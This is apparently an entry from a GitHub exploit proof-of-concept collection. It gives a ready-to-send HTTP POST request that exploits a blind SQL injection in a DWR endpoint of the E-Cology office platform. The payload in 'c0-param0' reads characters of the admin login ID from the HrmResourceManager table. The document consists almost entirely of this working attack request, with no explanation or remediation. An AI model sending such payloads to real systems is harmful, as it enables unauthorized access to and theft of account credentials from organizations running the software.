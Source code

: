 ## 某微 E-Cology 某版本 SQL注入漏洞
```
POST /dwr/call/plaincall/DocDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Content-Length: 191
Accept-Encoding: gzip
Connection: close
Content-Type: text/plain
 
callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
c0-param0=string:1 and ascii((select substring(loginid,1,1)from HrmResourceManager))=115
c0-param1=string:1
batchId=0
```
![3a380d7bbc888fb3314bb6b512b4e7db](https://github.com/wy876/POC/assets/139549762/6d40d284-0894-4c18-89dc-5a978d4f5c79)

